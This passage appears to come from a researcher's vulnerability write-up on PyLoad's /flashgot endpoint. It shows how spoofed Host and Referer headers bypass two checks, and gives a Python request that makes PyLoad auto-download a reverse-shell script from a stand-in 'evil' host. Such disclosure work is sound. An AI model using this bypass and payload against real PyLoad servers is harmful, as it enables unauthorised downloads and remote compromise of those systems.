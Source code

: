 Since my submission was deemed a duplicate, I set out to find a new CVE in PyLoad - something that did not rely on existing CVEs in libraries used by PyLoad. I went back to the APIs listed in [`cnl_blueprint.py`](https://github.com/pyload/pyload/blob/develop/src/pyload/webui/app/blueprints/cnl_blueprint.py) (the same file where the `/flash/addcrypted2` API and the `local_check` function are defined). Since I knew I could bypass the `local_check`, I wanted to find another API that performs some "dangerous" operation.

## Blind Server Side Request Forgery
The `cnl_blueprint.py` file has another API `/flashgot` which in addition to the `local_check` has a Referer header check. This header check can also be bypassed by just setting it to something PyLoad will accept. 

```Python
@bp.route("/flashgot", methods=["POST"], endpoint="flashgot")
@bp.route("/flashgot_pyload", methods=["POST"], endpoint="flashgot")
@local_check
def flashgot():
    if flask.request.referrer not in (
        "http://localhost:9666/flashgot",
        "http://127.0.0.1:9666/flashgot",
    ):
        flask.abort(500)
    ...    
```

Combining the headers to bypass both checks, I arrived at headers like this
```Python
headers = {"host": "127.0.0.1:9666", "Referer": "http://127.0.0.1:9666/flashgot"}
```

The `flashgot` API has a functionality to provide an URL from which PyLoad will download a file. There is additional parameter `autostart` which when provided results in PyLoad automatically downloading the file without any user interaction. Sending a request like below will download the file at the URL, to a folder named as per the `package` parameter, in the download location set in PyLoad (by default its `~/Downloads`)

```Python
url = "http://pyload/flashgot"
headers = {"host": "127.0.0.1:9666", "Referer": "http://127.0.0.1:9666/flashgot"}

data = {
    "package": "example_packge",  
    "passwords": "optional_password",
    "urls": "http://evil/exp.sh",
    "autostart": 1,
}

response = requests.post(url, data=data, headers=headers)
```

I created a file `exp.sh` which contained a basic bash reverse shell and exposed it using a Python simple HTTP server. Once I sent the request, PyLoad downloaded the `exp.sh` to `~/Downloads/example_package/exp.sh`. This is a blind SSRF vulnerability, but it is not particularly interesting. An attacker can probably use this to download malware into a system running PyLoad - but its not as interesting as code execution.
